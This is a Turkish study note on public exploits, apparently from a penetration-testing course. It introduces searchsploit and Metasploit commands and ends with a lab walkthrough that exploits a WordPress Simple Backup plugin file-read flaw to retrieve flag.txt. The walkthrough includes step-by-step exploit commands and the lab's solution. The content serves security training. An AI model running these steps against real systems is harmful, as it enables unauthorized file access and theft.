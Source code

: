 ```yaml
---
icon: material/help
---
```


# Public Exploits

## Finding Public Exploits

Güvenlik açıklarını aramak için `searchsploit` isimli aracı (Ubuntu için mevcut olmayabilir) kullanabiliriz.

Aracı yükle:

```bash
sudo apt update && sudo apt install -y exploitdb
```

Örnek bir arama gerçekleştir:

```bash
searchsploit openssh 7.2
```

## Metasploit Primer

MSF (Metasploit Framework), sızma testi için kullanılabilecek faydalı araçlardan birisidir. Birçok güvenlik açığına yönelik yerleşik istismarlar içerir. Araca ait bazı özellikler aşağıda verilmiştir:

* Hedefi gerçekten tehlikeye atmadan bir güvenlik açığının varlığını test etmek için doğrulama komut dosyaları içerir.
* Uzak bilgisayarları numaralandırmak için keşif komut dosyaları çalıştırabilir.
* Shell bağlantısı ve güvenliği ihlal edilmiş hedefler üzerinde komutlar çalıştırmak için kullanılan Meterpreter isimli aracı içerir.
* Birçok post-exploitation ve pivoting (lateral movement) aracı içerir.

MSF aşağıdaki komut ile sisteme yüklenebilir:

```bash
sudo apt update && sudo apt install -y metasploit-framework
```

Aşağıda Msfconsole aracı için bazı kullanım örnekleri verilmiştir:

| Command | Description |
|:---|:---|
| `msfconsole` | Konsol başlatılır. |
| `search` | Çeşitli aramalar gerçekleştirilir. |
| `help search` | Arama özelliği ile ilgili yardım görüntülenir. |
| `use` | Verilen bir modül kullanılır. |
| `show options` | Modül seçenekleri görüntülenir. |
| `set` | Modül seçenekleri ayarlanır. |
| `check` | Hedefin savunmasız olup olmadığı kontrol edilir. |
| `exploit` | Exploit başlatılır. |
| `exit` | Konsol kapatılır. |

## Questions

```text
Try to identify the services running on the server above, and then try to search to find public exploits to exploit them. Once you do, try to get the content of the '/flag.txt' file. (note: the web server may take a few seconds to start)
```

??? tip "Steps"

    Soruda verilen hedef makine adresini tarayıcı arama çubuğuna gir ve adrese git.

    Açılan sayfada `Simple Backup Plugin 2.7.10 for WordPress` başlığına vurgu yapıldığını görebilirsin. Ardından Msfconsole içinde aşağıdaki aramayı gerçekleştir:

    ```text
    search wordpress backup
    ```

    Çıkan sonuçlardan Simple Backup ile ilgili olan [modülü](https://www.rapid7.com/db/modules/auxiliary/scanner/http/wp_simple_backup_file_read/) kullan. Bu modül sayesinde dosyalar web sunucusu ayrıcalıklarıyla okunabilir:

    ```text
    use auxiliary/scanner/http/wp_simple_backup_file_read
    ```

    Modüle ait seçenekleri `show options` ile görüntüledikten sonra gerekli seçenekler ayarlanmalıdır. Soruda kök dizin (`/`) altındaki `flag.txt` dosyasının içeriğine ulaşmamız istendiğinden `FILEPATH` seçeneğinin değeri sadece `flag.txt` olarak ayarlanmalıdır:

    ```text
    set FILEPATH flag.txt
    ```

    RHOSTS değerini ayarla:

    ```text
    set RHOSTS 94.237.49.11
    ```

    RPORT değerini ayarla:

    ```text
    set RPORT 49656
    ```

    Exploit başlat:

    ```text
    exploit
    ```

    Modül yürütmesi tamamlandıktan sonra `flag.txt` dosyası çıktıda belirtilen konuma kaydedilecektir. Konsolu kapattıktan sonra bu dosyanın içeriğini görüntüle:

    ```bash
    cat /home/user/.msf4/loot/20231103053630_default_94.237.49.11_simplebackup.tra_535374.txt
    ```
